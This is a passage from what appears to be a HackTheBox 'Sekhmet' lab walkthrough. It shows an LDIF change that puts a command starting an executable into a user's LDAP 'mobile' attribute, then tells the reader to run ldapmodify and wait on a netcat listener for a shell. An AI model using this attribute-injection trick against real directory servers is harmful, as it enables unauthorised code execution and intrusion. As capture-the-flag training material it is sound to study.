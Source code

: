 ```bash
dn: CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb
changetype: modify
replace: mobile
mobile: 1;start C:\Windows\Debug\wia\a.exe
```

reuse ldapmodify,Then set up your netcat and wait for your shell start:

<img src="https://raw.githubusercontent.com/Mostafatoumi/Mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/Sekhmet/41.png"  >

***
<center><strong><font color="DarkGray"> Eventually, you'll get a shell. </font></strong></center>
<center> <img src="https://raw.githubusercontent.com/Mostafatoumi/Mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/Sekhmet/emsec.gif" width="400" height="450"> </center>
